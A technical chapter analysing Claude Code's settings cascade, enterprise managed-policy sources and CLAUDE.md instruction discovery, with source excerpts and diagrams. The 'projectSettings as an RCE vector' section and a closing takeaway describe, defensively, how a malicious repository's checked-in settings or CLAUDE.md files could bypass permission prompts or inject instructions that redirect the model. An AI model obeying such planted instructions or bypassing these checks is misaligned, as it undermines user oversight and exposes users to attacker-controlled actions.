**1. Plan for two state systems from day one.** cc's split between AppState (React-reactive) and bootstrap state (mutable singleton) emerged from real constraints: headless mode, performance, and import-graph isolation. Put cost counters, session IDs, and telemetry providers in a React-agnostic module.

**2. The `onChange` diff is your single choke point.** Without centralized diffing, each mutation site must remember to notify every consumer. cc's `onChangeAppState` pattern ensures any `setState` call triggers all side effects regardless of origin.

**3. Selector discipline matters more than store architecture.** The `useAppState(selector)` pattern gives per-slice subscriptions for free, but only if selectors return stable references. A selector creating new objects on every call (`s => ({ a: s.a, b: s.b })`) defeats the optimization entirely.

**4. Keep bootstrap state small and append-only.** Every field added to the bootstrap singleton increases the test-reset surface and synchronization complexity. Prefer AppState for anything that changes during a session; reserve bootstrap state for startup-once or monotonically accumulating values.

**5. Model the state-to-persistence bridge explicitly.** Decide whether state is the source of truth with disk as mirror (cc's approach) or vice versa. The former is simpler but can lose writes during crashes; the latter requires conflict resolution.
# CLAUDE.md, Settings Cascade, and Managed Settings

## Overview

Every long-running agent needs a way to absorb human intent without requiring a human in the loop on every turn. cc solves this with two complementary mechanisms: a **settings cascade** that merges configuration from six ordered sources, and the **CLAUDE.md** instruction file system that deterministically injects prose instructions into every query's system prompt. The settings cascade controls *structural* behavior — which tools are available, what permissions apply, which MCP servers are trusted. The CLAUDE.md system controls *behavioral* guidance — coding conventions, project context, workflow preferences. Together they form the first and most fundamental of HER's six configuration surfaces (Section 7).

The design reflects a core harness-engineering insight: **more instruction is not always better**. An ETH Zurich study (arXiv:2602.11988, "Evaluating AGENTS.md") found that context files tend to *reduce* task success rates compared to providing no repository context, while also increasing inference cost by over 20%. The paper recommends describing only "minimal requirements" — verbose instructions and detailed directory trees hurt rather than help. cc's cascade and CLAUDE.md systems embody this principle through explicit source gating, content truncation, and the ability for enterprise administrators to lock surfaces down entirely.

The two systems — settings and CLAUDE.md — are deeply intertwined. The settings cascade controls *which* CLAUDE.md sources are loaded: the `--setting-sources` flag can disable project or user sources, the `claudeMdExcludes` field can exclude individual files by glob pattern, and `strictPluginOnlyCustomization` can block all non-managed instruction surfaces. Settings are the meta-layer that governs the instruction layer. This chapter walks through both systems from data structures through control flow to the security model that protects the cascade from abuse.

## Data structures and contracts

### SettingSource and the cascade order

The five canonical sources are defined in `src/utils/settings/constants.ts`:

```typescript
// src/utils/settings/constants.ts:L7-L22
export const SETTING_SOURCES = [
  // User settings (global)
  'userSettings',

  // Project settings (shared per-directory)
  'projectSettings',

  // Local settings (gitignored)
  'localSettings',

  // Flag settings (from --settings flag)
  'flagSettings',

  // Policy settings (managed-settings.json or remote settings from API)
  'policySettings',
] as const
```

Later sources override earlier ones via `lodash.mergeWith` with a custom array-concatenation strategy. The `getEnabledSettingSources()` function always includes `policySettings` and `flagSettings` regardless of what the `--setting-sources` CLI flag specifies, ensuring enterprise and CLI overrides can never be accidentally disabled (`src/utils/settings/constants.ts:L159-L167`). This is a non-negotiable invariant: even if a user passes `--setting-sources user`, policy and flag settings are still loaded and still win.

Each source maps to a specific file path. User settings live at `~/.claude/settings.json` (or `cowork_settings.json` in cowork mode). Project settings live at `<project>/.claude/settings.json`. Local settings — the gitignored sibling — live at `<project>/.claude/settings.local.json`. Flag settings can come from either the `--settings` CLI flag (a path to a JSON file) or from inline SDK settings. Policy settings come from the highest-priority managed source: remote API, MDM, managed-settings.json, or HKCU registry (`src/utils/settings/settings.ts:L274-L296`).

### Settings source class diagram

The relationship between source types, their storage, and their trust boundaries:

```mermaid
classDiagram
    class SettingSource {
        <<enum>>
        userSettings
        projectSettings
        localSettings
        flagSettings
        policySettings
    }
    class UserSettings {
        +path: ~/.claude/settings.json
        +trust: user-controlled
        +editable: true
    }
    class ProjectSettings {
        +path: .claude/settings.json
        +trust: checked-in (adversarial)
        +editable: true
    }
    class LocalSettings {
        +path: .claude/settings.local.json
        +trust: gitignored
        +editable: true
    }
    class FlagSettings {
        +path: --settings CLI flag
        +trust: user-invoked
        +editable: false
    }
    class PolicySettings {
        +origin: remote | plist | hklm | file | hkcu
        +trust: admin-controlled
        +editable: false
        +strategy: first-source-wins
    }
    SettingSource --> UserSettings : userSettings
    SettingSource --> ProjectSettings : projectSettings
    SettingSource --> LocalSettings : localSettings
    SettingSource --> FlagSettings : flagSettings
    SettingSource --> PolicySettings : policySettings
    PolicySettings --> RemoteAPI : remote
    PolicySettings --> MDMSettings : plist/hklm
    PolicySettings --> ManagedFileSettings : managed-settings.json
    PolicySettings --> HKCUSettings : hkcu
    class RemoteAPI {
        +priority: highest
    }
    class MDMSettings {
        +platform: macOS plist | Windows HKLM
    }
    class ManagedFileSettings {
        +path: managed-settings.json
        +dropIn: managed-settings.d/*.json
    }
    class HKCUSettings {
        +priority: lowest
    }
```

This diagram captures the critical trust boundary: `ProjectSettings` is marked adversarial because it is checked into version control and visible to anyone with repository access, while `PolicySettings` uses the first-source-wins strategy rather than deep merge, ensuring enterprise policy is atomic.

### SettingsJson schema

The unified `SettingsSchema` in `src/utils/settings/types.ts` is the single Zod schema that validates every settings file regardless of source. It defines 40+ optional fields covering permissions, hooks, MCP server allowlists/denylists, model overrides, sandbox configuration, plugin management, and enterprise policy controls:

```typescript
// src/utils/settings/types.ts:L255-L265
export const SettingsSchema = lazySchema(() =>
  z
    .object({
      $schema: z
        .literal(CLAUDE_CODE_SETTINGS_SCHEMA_URL)
        .optional()
        .describe('JSON Schema reference for Claude Code settings'),
      apiKeyHelper: z
        .string()
        .optional()
        .describe('Path to a script that outputs authentication values'),
```

The schema uses `lazySchema()` to defer evaluation until first access, avoiding circular-dependency issues during module initialization. The outer `.passthrough()` preserves unknown fields so that downlevel clients reading settings written by newer versions don't silently drop data — a backward-compatibility contract enforced by dedicated tests (`src/utils/settings/types.ts:L1072`). The schema is also gated by feature flags: fields like `autoMode`, `skipAutoPermissionPrompt`, and `useAutoModeDuringPlan` only appear when the `TRANSCRIPT_CLASSIFIER` feature is active, and `xaaIdp` only appears when `CLAUDE_CODE_ENABLE_XAA` is set. This means the schema itself is environment-dependent, which is why `lazySchema()` defers until runtime.

Several fields have significant security semantics. The `permissions` sub-schema contains `allow`, `deny`, and `ask` arrays of permission rules, a `defaultMode` enum, a `disableBypassPermissionsMode` kill switch, and `additionalDirectories` for expanding the permission scope. The `allowedMcpServers` and `deniedMcpServers` arrays implement an enterprise MCP allowlist/denylist with mutual-exclusion validation (each entry must specify exactly one of `serverName`, `serverCommand`, or `serverUrl`). The denylist always takes precedence over the allowlist — if a server appears on both, it is denied (`src/utils/settings/types.ts:L417-L434`).

### MemoryFileInfo and CLAUDE.md discovery

The CLAUDE.md system produces `MemoryFileInfo` records, each representing one instruction file loaded into context:

```typescript
// src/utils/claudemd.ts:L229-L243
export type MemoryFileInfo = {
  path: string
  type: MemoryType
  content: string
  parent?: string // Path of the file that included this one
  globs?: string[] // Glob patterns for file paths this rule applies to
  // True when auto-injection transformed `content` (stripped HTML comments,
  // stripped frontmatter, truncated MEMORY.md) such that it no longer matches
  // the bytes on disk. When set, `rawContent` holds the unmodified disk bytes
  // so callers can cache a `isPartialView` readFileState entry — presence in
  // cache provides dedup + change detection, but Edit/Write still require an
  // explicit Read before proceeding.
  contentDiffersFromDisk?: boolean
  rawContent?: string
}
```

The `type` field classifies files into Managed, User, Project, Local, AutoMem, and TeamMem tiers, each with distinct discovery rules and trust boundaries. The `globs` field enables conditional rules — `.claude/rules/*.md` files with `frontmatter.paths` that only load when the model is operating on matching file paths. The `contentDiffersFromDisk` flag signals when auto-injection transformed the content (stripped HTML comments, removed frontmatter, truncated MEMORY.md) so callers can maintain correct cache entries. When this flag is set, `rawContent` preserves the original on-disk bytes so that Edit/Write tools can still validate that the user has read the file before modifying it — the cache provides dedup and change detection, but content modification still requires an explicit Read.

The CLAUDE.md loading comment at the top of `src/utils/claudemd.ts` documents the four-tier priority system explicitly:

```typescript
// src/utils/claudemd.ts:L1-L9
/**
 * Files are loaded in the following order:
 *
 * 1. Managed memory (eg. /etc/claude-code/CLAUDE.md) - Global instructions for all users
 * 2. User memory (~/.claude/CLAUDE.md) - Private global instructions for all projects
 * 3. Project memory (CLAUDE.md, .claude/CLAUDE.md, and .claude/rules/*.md in project roots) - Instructions checked into the codebase
 * 4. Local memory (CLAUDE.local.md in project roots) - Private project-specific instructions
 */
```

This reverse-priority loading is intentional: later context receives more attention from the model, so files closer to the user's current directory (which are loaded last) effectively override files higher up the tree.

### Settings cache architecture

The three-tier cache in `src/utils/settings/settingsCache.ts` prevents redundant I/O across a session:

```typescript
// src/utils/settings/settingsCache.ts:L5-L13
let sessionSettingsCache: SettingsWithErrors | null = null

export function getSessionSettingsCache(): SettingsWithErrors | null {
  return sessionSettingsCache
}

export function setSessionSettingsCache(value: SettingsWithErrors): void {
  sessionSettingsCache = value
}
```

The tiers are: (1) a session-level `SettingsWithErrors` cache holding the final merged result; (2) a per-source cache keyed by `SettingSource` (using `undefined` for cache miss vs. `null` for "no settings for this source"); and (3) a path-keyed parse cache that deduplicates the Zod validation of individual files. All three are invalidated atomically by `resetSettingsCache()` whenever a settings file is written, a directory is added, or plugins initialize (`src/utils/settings/settingsCache.ts:L55-L59`).

The cache also holds a `pluginSettingsBase` — the lowest-priority layer written by the plugin loader after discovering plugins. This is merged before any file-based source so that plugin-provided settings (e.g., agent names) appear as defaults that can be overridden by user, project, and policy sources (`src/utils/settings/settingsCache.ts:L62-L80`). The separation ensures that plugin settings never win over explicit user configuration.

The `parseSettingsFile()` function clones cached results before returning them, because `mergeWith` mutates its target in place. Without cloning, a caller that mutates the returned settings object would corrupt the cache entry for subsequent callers. The source explains: "Clone so callers (e.g. mergeWith in getSettingsForSourceUncached, updateSettingsForSource) can't mutate the cached entry" (`src/utils/settings/settings.ts:L184-L185`).

## Control flow

### Settings cascade merge

The `loadSettingsFromDisk()` function in `src/utils/settings/settings.ts` is the central merge engine. It iterates through enabled sources in priority order, deep-merging each into an accumulator:

```typescript
// src/utils/settings/settings.ts:L639-L674
let isLoadingSettings = false

/**
 * Load settings from disk without using cache
 * This is the original implementation that actually reads from files
 */
function loadSettingsFromDisk(): SettingsWithErrors {
  // Prevent recursive calls to loadSettingsFromDisk
  if (isLoadingSettings) {
    return { settings: {}, errors: [] }
  }

  const startTime = Date.now()
  profileCheckpoint('loadSettingsFromDisk_start')
  logForDiagnosticsNoPII('info', 'settings_load_started')

  isLoadingSettings = true
  try {
    // Start with plugin settings as the lowest priority base.
    // All file-based sources (user, project, local, flag, policy) override these.
    // Plugin settings only contain allowlisted keys (e.g., agent) that are valid SettingsJson fields.
    const pluginSettings = getPluginSettingsBase()
    let mergedSettings: SettingsJson = {}
    if (pluginSettings) {
      mergedSettings = mergeWith(
        mergedSettings,
        pluginSettings,
        settingsMergeCustomizer,
      )
    }
    const allErrors: ValidationError[] = []
    const seenErrors = new Set<string>()
    const seenFiles = new Set<string>()

    // Merge settings from each source in priority order with deep merging
    for (const source of getEnabledSettingSources()) {
```

The merge uses a custom `settingsMergeCustomizer` that concatenates and deduplicates arrays rather than replacing them, which means `permissions.allow` rules from all sources accumulate rather than shadow:

```typescript
// src/utils/settings/settings.ts:L529-L547
function mergeArrays<T>(targetArray: T[], sourceArray: T[]): T[] {
  return uniq([...targetArray, ...sourceArray])
}

/**
 * Custom merge function for lodash mergeWith when merging settings.
 * Arrays are concatenated and deduplicated; other values use default lodash merge behavior.
 * Exported for testing.
 */
export function settingsMergeCustomizer(
  objValue: unknown,
  srcValue: unknown,
): unknown {
  if (Array.isArray(objValue) && Array.isArray(srcValue)) {
    return mergeArrays(objValue, srcValue)
  }
  // Return undefined to let lodash handle default merge behavior
  return undefined
}
```

This design choice has a security implication: enterprise deny rules in `policySettings` accumulate with rather than override user allow rules, which is why the `permissions.deny` field takes absolute precedence during evaluation (covered in Chapter 32). The array-concatenation behavior also means that `allowedMcpServers` and `deniedMcpServers` lists grow across sources, so an enterprise denylist adds to (rather than replaces) a project denylist. The `mergeArrays` helper uses `uniq()` from lodash to deduplicate, preventing the same rule from appearing twice if both project and user settings specify it.

Error handling during the merge is careful to deduplicate validation errors. Each error is keyed by `${error.file}:${error.path}:${error.message}` and tracked in a `seenErrors` set. This prevents the same Zod validation error from appearing multiple times if the same file is referenced through multiple paths (`src/utils/settings/settings.ts:L751-L758`). Files themselves are deduplicated by resolved path to prevent the same physical file from being parsed twice when multiple source aliases point to the same location.

### Policy settings: first-source-wins

Within the `policySettings` source, cc uses a "first source wins" strategy rather than merge — only the highest-priority policy source that has content is used. The priority chain is: remote API > HKLM/macOS plist MDM > managed-settings.json file > HKCU registry. This is implemented in `getSettingsForSourceUncached()`:

```typescript
// src/utils/settings/settings.ts:L319-L345
function getSettingsForSourceUncached(
  source: SettingSource,
): SettingsJson | null {
  // For policySettings: first source wins (remote > HKLM/plist > file > HKCU)
  if (source === 'policySettings') {
    const remoteSettings = getRemoteManagedSettingsSyncFromCache()
    if (remoteSettings && Object.keys(remoteSettings).length > 0) {
      return remoteSettings
    }

    const mdmResult = getMdmSettings()
    if (Object.keys(mdmResult.settings).length > 0) {
      return mdmResult.settings
    }

    const { settings: fileSettings } = loadManagedFileSettings()
    if (fileSettings) {
      return fileSettings
    }

    const hkcu = getHkcuSettings()
    if (Object.keys(hkcu.settings).length > 0) {
      return hkcu.settings
    }

    return null
  }
```

The `getPolicySettingsOrigin()` function mirrors this logic and returns a string tag (`'remote'`, `'plist'`, `'hklm'`, `'file'`, `'hkcu'`, or `null`) for diagnostic display. The `/status` command uses this to show users which policy source is active — for example, "(remote)" vs. "(file + drop-ins)" vs. "(plist)" (`src/utils/settings/settings.ts:L374-L407`).

The managed-settings.json path also supports a drop-in directory (`managed-settings.d/*.json`) following the systemd/sudoers convention. Drop-in files are sorted alphabetically and merged on top of the base file, allowing separate teams to ship independent policy fragments (e.g., `10-otel.json`, `20-security.json`) without coordinating edits to a single admin-owned file (`src/utils/settings/settings.ts:L74-L121`). The comment in the source explains the rationale: "Separate teams can ship independent policy fragments (e.g. 10-otel.json, 20-security.json) without coordinating edits to a single admin-owned file."

### Settings update and write path

The `updateSettingsForSource()` function handles writes to editable sources (user, project, local — but never policy or flag). It reads the existing file, merges the new settings on top, and writes the result back. A critical detail: it bypasses the per-source cache when reading the existing settings because `mergeWith` mutates its target, and mutating a cached object would leak unpersisted state if the write fails before `resetSettingsCache()` fires (`src/utils/settings/settings.ts:L416-L424`).

If the existing file has a JSON syntax error, the function returns an error rather than overwriting — preserving the user's malformed file so they can fix it manually. If the file does not exist, it creates the directory and writes from scratch. After a successful write, `resetSettingsCache()` invalidates all three cache tiers atomically. For local settings, the function also asynchronously adds `settings.local.json` to `.gitignore` to prevent accidental commits (`src/utils/settings/settings.ts:L508-L514`).

A special merge behavior handles key deletion: setting a value to `undefined` triggers deletion from the merged object. The customizer checks for `srcValue === undefined` and deletes the key from the target. The source comment warns: "To delete a key from a record field, set it to `undefined` — do NOT use `delete`. mergeWith only detects deletion when the key is present with an explicit `undefined` value" (`src/utils/settings/settings.ts:L412-L415`).

### CLAUDE.md discovery and loading

The `getMemoryFiles()` function in `src/utils/claudemd.ts` performs a multi-phase directory walk to discover all instruction files. It is memoized so the walk only happens once per session (or per cache invalidation). The loading order is:

```mermaid
flowchart TD
    A[Managed: /etc/claude-code/CLAUDE.md] --> B[Managed: /etc/claude-code/rules/*.md]
    B --> C[User: ~/.claude/CLAUDE.md]
    C --> D[User: ~/.claude/rules/*.md]
    D --> E{Walk from root to CWD}
    E --> F[Project: dir/CLAUDE.md]
    F --> G[Project: dir/.claude/CLAUDE.md]
    G --> H[Project: dir/.claude/rules/*.md]
    H --> I[Local: dir/CLAUDE.local.md]
    I --> J{Next dir toward CWD}
    J --> F
    J --> K[AutoMem: MEMORY.md]
    K --> L[TeamMem: team entrypoint]
    L --> M[Return MemoryFileInfo array]
```

Files closer to the current directory are loaded later, giving them higher effective priority — the model pays more attention to later context. Each source tier can be individually disabled via the `--setting-sources` CLI flag: when `projectSettings` is disabled, the entire Project/Local CLAUDE.md walk is skipped (`src/utils/claudemd.ts:L826-L827`). User memory is always allowed to include external files (the `includeExternal` parameter is hardcoded to `true` for User-type reads), while Project and Local files require explicit approval for external includes via `hasClaudeMdExternalIncludesApproved` (`src/utils/claudemd.ts:L798-L801`).

The walk handles edge cases for nested git worktrees: when a worktree is created inside the main repo (`.claude/worktrees/<name>/`), the upward directory traversal would pass through both the worktree root and the main repo root, causing duplicate loading of checked-in files. The code detects this by comparing `findGitRoot()` with `findCanonicalGitRoot()` and skips Project-type files from directories above the worktree but within the main repo. Local files (`CLAUDE.local.md`) are not skipped because they are gitignored and only exist in the main repo (`src/utils/claudemd.ts:L868-L876`).

After building the full file list, `getMemoryFiles()` fires `InstructionsLoaded` hooks for each instruction file. This is gated by a one-shot `shouldFireHook` flag that is only consumed on eager (non-`forceIncludeExternal`) cache misses, preventing double-fires when the cache is cleared for approval checks. The load reason is tracked: `'session_start'` for initial load, `'compact'` when compaction clears the cache, and `'include'` for files loaded via `@include` directives (`src/utils/claudemd.ts:L1054-L1070`).

### @include directive resolution

CLAUDE.md files can include other files using `@path` syntax. The `extractIncludePathsFromTokens()` function operates on pre-lexed Markdown tokens to extract `@` references from text nodes while respecting code blocks and HTML comments:

```typescript
// src/utils/claudemd.ts:L451-L459
function extractIncludePathsFromTokens(
  tokens: ReturnType<Lexer['lex']>,
  basePath: string,
): string[] {
  const absolutePaths = new Set<string>()

  // Extract @paths from a text string and add resolved paths to absolutePaths.
  function extractPathsFromText(textContent: string) {
    const includeRegex = /(?:^|\s)@((?:[^\s\\]|\\ )+)/g
```

The function uses the `marked` lexer with `gfm: false` specifically so that `~/path` does not tokenize as a strikethrough (the GFM spec treats `~text~` as strikethrough). By lexing once, both HTML comment stripping and `@include` extraction share the same token stream, avoiding a second parse. Circular references are prevented by tracking processed paths in a `Set<string>`, and maximum include depth is capped at 5 (`src/utils/claudemd.ts:L537`). External includes (files outside the project root) require an explicit approval step — `shouldShowClaudeMdExternalIncludesWarning()` gates them behind a user dialog (`src/utils/claudemd.ts:L1420-L1430`).

The `@include` system also supports fragment identifiers (`@path#heading`) — the hash and everything after it is stripped before path resolution, so `@./config.md#database` resolves to `./config.md`. Spaces in paths are supported via backslash escaping (`@./my\ file.md`). Only text file extensions are allowed for includes — binary files (images, PDFs) are silently skipped with a debug log (`src/utils/claudemd.ts:L349-L354`).

### Conditional rules via frontmatter paths

A key feature for keeping context minimal is conditional rules. Files in `.claude/rules/` can declare `frontmatter.paths` with glob patterns that determine when the rule applies. For example, a rule file at `.claude/rules/python-style.md` with `---\npaths: src/**/*.py\n---` only loads when the model is operating on Python files. The `processConditionedMdRules()` function filters rules by matching the target path against the glob patterns using the `ignore` npm package (`src/utils/claudemd.ts:L1354-L1397`).

For Project rules, glob patterns are resolved relative to the directory containing `.claude/`, not the CWD. This ensures that rules in a monorepo subdirectory correctly match paths relative to that subdirectory. For Managed and User rules, patterns are resolved relative to the original CWD. Paths that escape the base directory (starting with `..`) or are absolute are excluded from matching — a security measure preventing rules from matching files outside their intended scope (`src/utils/claudemd.ts:L1382-L1395`).

### HTML comment stripping

Before instruction content reaches the model, block-level HTML comments are stripped. The `stripHtmlComments()` function uses the `marked` lexer to identify comment tokens at the block level only, preserving comments inside inline code spans and fenced code blocks. This allows developers to annotate CLAUDE.md files with editorial notes that will not consume context tokens. Unclosed comments (`<!--` with no matching `-->`) are left intact to prevent a typo from silently swallowing the rest of the file (`src/utils/claudemd.ts:L292-L334`).

### Settings cascade precedence diagram

The full cascade from lowest to highest priority:

```mermaid
flowchart LR
    subgraph Cascade
        P[Plugin Base] --> U[User Settings<br/>~/.claude/settings.json]
        U --> PR[Project Settings<br/>.claude/settings.json]
        PR --> L[Local Settings<br/>.claude/settings.local.json]
        L --> F[Flag Settings<br/>--settings / inline SDK]
        F --> POL[Policy Settings]
    end
    subgraph Policy Sources
        POL --> R[Remote API<br/>highest]
        R --> MDM[MDM: HKLM / plist]
        MDM --> MF[managed-settings.json<br/>+ managed-settings.d/]
        MF --> HKCU[HKCU registry<br/>lowest]
    end
    subgraph CLAUDE.md
        CM_M[Managed CLAUDE.md] --> CM_U[User CLAUDE.md]
        CM_U --> CM_P[Project CLAUDE.md<br/>root → CWD walk]
        CM_P --> CM_L[Local CLAUDE.local.md]
        CM_L --> CM_A[AutoMem / TeamMem]
    end
```

The diagram shows the parallel between the settings cascade and the CLAUDE.md cascade — both follow the same Managed > User > Project > Local ordering, with the same trust model: managed sources are admin-controlled, user sources are private to the individual, project sources are checked in (and therefore potentially adversarial), and local sources are gitignored.

## Edge cases and failure modes

### projectSettings as an RCE vector

Several functions intentionally exclude `projectSettings` from security-critical checks because a malicious project could commit a `.claude/settings.json` that auto-bypasses safety dialogs. For example, `hasSkipDangerousModePermissionPrompt()` and `hasAutoModeOptIn()` only consult user, local, flag, and policy sources — never project:

```typescript
// src/utils/settings/settings.ts:L882-L889
export function hasSkipDangerousModePermissionPrompt(): boolean {
  return !!(
    getSettingsForSource('userSettings')?.skipDangerousModePermissionPrompt ||
    getSettingsForSource('localSettings')?.skipDangerousModePermissionPrompt ||
    getSettingsForSource('flagSettings')?.skipDangerousModePermissionPrompt ||
    getSettingsForSource('policySettings')?.skipDangerousModePermissionPrompt
  )
}
```

This is a deliberate trust boundary: project settings are checked into version control and visible to anyone with repository access, making them unsuitable for security-sensitive opt-outs. The `getUseAutoModeDuringPlan()` function applies the same pattern — it checks policy, flag, user, and local sources, and defaults to `true` unless any trusted source explicitly sets `false`. Project settings are excluded because a malicious project could otherwise force auto mode during plan mode, bypassing the human review that plan mode is designed to enforce (`src/utils/settings/settings.ts:L918-L928`).

### Strict plugin-only customization

Enterprise administrators can lock customization surfaces (skills, agents, hooks, MCP) so that only plugin-provided and managed sources are respected. The `strictPluginOnlyCustomization` field in managed settings uses a `.catch(undefined)` pattern to ensure that invalid values (e.g., a future enum value on an older client) degrade gracefully to "unlocked for this field" rather than nulling the entire managed-settings file:

```typescript
// src/utils/settings/types.ts:L518-L540
strictPluginOnlyCustomization: z
  .preprocess(
    // Forwards-compat: drop unknown surface names so a future enum
    // value (e.g. 'commands') doesn't fail safeParse and null out the
    // ENTIRE managed-settings file (settings.ts:101). ["skills",
    // "commands"] on an old client → ["skills"] → locks what it knows,
    // ignores what it doesn't. Degrades to less-locked, never to
    // everything-unlocked.
    v =>
      Array.isArray(v)
        ? v.filter(x =>
            (CUSTOMIZATION_SURFACES as readonly string[]).includes(x),
          )
        : v,
    z.union([z.boolean(), z.array(z.enum(CUSTOMIZATION_SURFACES))]),
  )
  .optional()
  // Non-array invalid values ("skills" string, {object}) pass through
  // the preprocess unchanged and would fail the union → null the whole
  // managed-settings file. .catch drops the field to undefined instead.
  // Degrades to unlocked-for-this-field, never to everything-broken.
  // Doctor flags the raw value.
  .catch(undefined)
```

The preprocess filter strips unknown surface names, and `.catch(undefined)` ensures a malformed value does not take down the whole settings file. This is the "degrades to less-locked, never to everything-broken" principle. The `CUSTOMIZATION_SURFACES` constant — `['skills', 'agents', 'hooks', 'mcp']` — is the single source of truth for both the schema preprocess and the runtime helper (`src/utils/settings/types.ts:L248-L253`).

The `allowManagedPermissionRulesOnly` and `allowManagedHooksOnly` flags operate similarly: when set in managed settings, they strip user/project/local permission rules or hooks entirely. The `allowManagedMcpServersOnly` flag restricts the MCP server allowlist to only the admin-defined list — users can still add their own MCP servers, but only admin-approved servers are allowed to connect (`src/utils/settings/types.ts:L501-L516`). These three flags together allow an enterprise to fully lock down the agent's trust boundary: only managed permission rules apply, only managed hooks execute, and only managed MCP servers connect.

### CLAUDE.md content truncation

Memory files are capped at 40,000 characters (`MAX_MEMORY_CHARACTER_COUNT`). AutoMem and TeamMem entrypoints (MEMORY.md) undergo additional truncation via `truncateEntrypointContent()`, which enforces both a line cap and a byte cap. When truncation occurs, `contentDiffersFromDisk` is set to `true` and `rawContent` preserves the original bytes so that the file-state cache can still detect on-disk changes correctly (`src/utils/claudemd.ts:L383-L399`).

The `claudeMdExcludes` setting provides another minimization mechanism. It accepts an array of glob patterns (matched with picomatch) that exclude specific CLAUDE.md files from loading. Only User, Project, and Local types are subject to exclusion — Managed, AutoMem, and TeamMem files are never excluded because they represent policy or internal memory systems. The function also resolves symlinks in absolute pattern prefixes to handle macOS's `/tmp /private/tmp` symlink, ensuring that a user's exclude pattern matches the real filesystem path (`src/utils/claudemd.ts:L547-L612`).

### Broken symlinks and ENOENT handling

Both the settings loader and CLAUDE.md walker handle missing files silently (ENOENT is expected — not all settings files exist on every machine). However, broken symlinks are logged differently: `handleFileSystemError()` in settings.ts specifically checks for ENOENT on a resolved path and logs it as a "Broken symlink or missing file encountered" for debugging, while other errors (EACCES, I/O) propagate normally (`src/utils/settings/settings.ts:L157-L170`). In the CLAUDE.md walker, EACCES errors trigger analytics events (`tengu_claude_md_permission_error`) to help administrators identify misconfigured permissions without exposing file paths in logs (`src/utils/claudemd.ts:L409-L416`).

### Recursive loading prevention

The `isLoadingSettings` guard in `loadSettingsFromDisk()` prevents infinite recursion when a settings file references a path that triggers another settings load. If recursion is detected, the function returns empty settings rather than crashing — a safe degradation. The guard is released in a `finally` block to ensure it is always cleared even if an exception propagates (`src/utils/settings/settings.ts:L639-L649`).

### Validation errors do not block loading

When `parseSettingsFile()` encounters a Zod validation error, it returns `{ settings: null, errors: [...] }` for that source, but the merge continues with the remaining sources. The error is collected into `allErrors` and surfaced to the user via diagnostics, but it does not prevent the agent from starting. This design choice means that a single malformed settings file degrades gracefully — the user sees the error, the rest of the cascade still works. The `filterInvalidPermissionRules()` function also runs before Zod validation to strip out bad permission rules without rejecting the entire file, following the same "lose the field, not the file" principle (`src/utils/settings/settings.ts:L217-L218`).

## Where cc diverges from the published pattern

### First-source-wins vs. deep merge for policy

HER Section 7.1 describes CLAUDE.md and settings files as "deterministically injected" with a simple cascade. cc's implementation is more nuanced: the five setting sources deep-merge (arrays concatenate, objects merge), but *within* the policy source, it uses first-source-wins. This hybrid approach means that enterprise MDM settings do not partially merge with managed-settings.json — the first policy source with content takes over entirely. This diverges from the typical Unix convention (where all sources merge) but matches the security requirement that enterprise policy should be an all-or-nothing layer. The rationale is that partial merges of security policy can produce unintended configurations — for example, if MDM sets `permissions.deny: ["Bash(rm:*)"]` and managed-settings.json sets `permissions.allow: ["Bash(rm:*)"]`, merging them would create a contradiction. First-source-wins avoids this entirely.

### CLAUDE.md vs. AGENTS.md

The ETH Zurich study evaluated AGENTS.md files specifically. cc's CLAUDE.md system predates and differs from the AGENTS.md convention in several ways: (1) cc supports multiple discovery tiers (Managed/User/Project/Local/AutoMem/TeamMem) rather than a single project-root file; (2) cc supports `@include` directives for modular composition; (3) cc supports conditional rules via frontmatter `paths` globs in `.claude/rules/*.md`; (4) cc has explicit enterprise controls (`claudeMdExcludes`, `strictPluginOnlyCustomization`) that can disable user/project CLAUDE.md files entirely. These additions address the study's finding that "verbose instructions hurt" by providing mechanisms for targeted, minimal context delivery. The conditional rules system in particular directly addresses the study's recommendation: rather than loading a monolithic instruction file, teams can split instructions into path-scoped fragments that only load when relevant.

### Settings as a supply-chain surface

HER Section 7.2 notes that MCP servers are a supply-chain attack surface. cc extends this principle to settings themselves: the `allowManagedPermissionRulesOnly` and `allowManagedHooksOnly` flags in managed settings can strip user/project/local permission rules and hooks entirely, treating those sources as untrusted. This goes beyond what HER describes — the settings cascade itself has a kill switch that can neuter lower-priority sources, effectively turning a merge-based system into a policy-only system for security-sensitive fields. The `strictPluginOnlyCustomization` flag goes even further, blocking non-plugin customization for specified surfaces (skills, agents, hooks, MCP). Combined with `strictKnownMarketplaces` (which gates which plugin sources are allowed), an enterprise can achieve end-to-end admin control: only managed plugins from approved marketplaces can customize the agent, and everything else is locked down.

### Back-pressure on instruction loading

HER Section 7.6 describes back-pressure mechanisms where "success is silent; only failures produce verbose output." cc applies this principle to CLAUDE.md loading: the `MEMORY_INSTRUCTION_PROMPT` preamble ("These instructions OVERRIDE default behavior") is the only framing — no per-file success messages, no loading indicators. If a file fails to load due to permissions, an analytics event fires (`tengu_claude_md_permission_error`), but the user sees nothing in the REPL. If a file exceeds the character limit, it is silently truncated. This keeps the instruction channel narrow and predictable, avoiding the context-flooding pattern that HER warns against.

## Developer takeaways for building a long-running agent

1. **Order your cascade explicitly and document it.** cc's five-source cascade (plugin then user then project then local then flag then policy) is defined in a single constant (`SETTING_SOURCES`) and the order is load-bearing. Any reordering changes behavior silently. For your own agent, write the precedence table down and test it. The `getEnabledSettingSources()` function should enforce non-removable sources — cc always includes policy and flag settings regardless of user preference.

2. **Make enterprise policy non-mergeable at the source level.** cc's first-source-wins for policy prevents a partial-merge scenario where a user's HKCU setting accidentally combines with an admin's MDM setting to produce an unintended configuration. If you need enterprise control, make it atomic. The alternative — deep-merging all policy sources — creates contradictions when deny rules from one source clash with allow rules from another.

3. **Treat project-level settings as untrusted.** cc's security-sensitive checks (dangerous-mode bypass, auto-mode opt-in) explicitly skip `projectSettings` because checked-in files are an RCE vector. Your agent should have the same trust boundary: anything committed to version control is attacker-controlled. This applies doubly to CLAUDE.md files — a malicious project can inject instructions that redirect the model, which is why `strictPluginOnlyCustomization` can block them entirely.

4. **Degrade gracefully on schema mismatches.** cc's `.passthrough()` on the settings schema, `.catch(undefined)` on strict-plugin-only, and preprocess filters that drop unknown enum values all serve the same principle: an older client reading a newer settings file should lose features, not crash. This is essential for any agent that auto-updates or runs in mixed-version environments. The specific pattern of "degrades to less-locked, never to everything-broken" should be your default for security-sensitive fields.

